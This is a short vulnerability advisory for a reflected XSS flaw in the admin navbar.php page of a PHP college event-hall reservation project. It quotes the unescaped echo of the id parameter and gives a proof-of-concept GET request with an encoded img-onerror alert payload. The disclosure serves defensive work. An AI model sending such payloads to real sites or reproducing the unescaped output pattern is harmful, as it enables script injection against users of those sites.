 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS navbar.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/navbar.php

## Code
```php
 <li><a class="nav-link scrollto" href="index.php?id=<?php echo $id; ?>">Home</a></li>
                    <li><a class="nav-link scrollto" href="rooms.php?id=<?php echo $id; ?>">Rooms</a></li>
                    <li><a class="nav-link scrollto" href="users.php?id=<?php echo $id; ?>">Users</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/navbar.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/53403d85-fc2e-4d7a-ad88-67a34139284b)
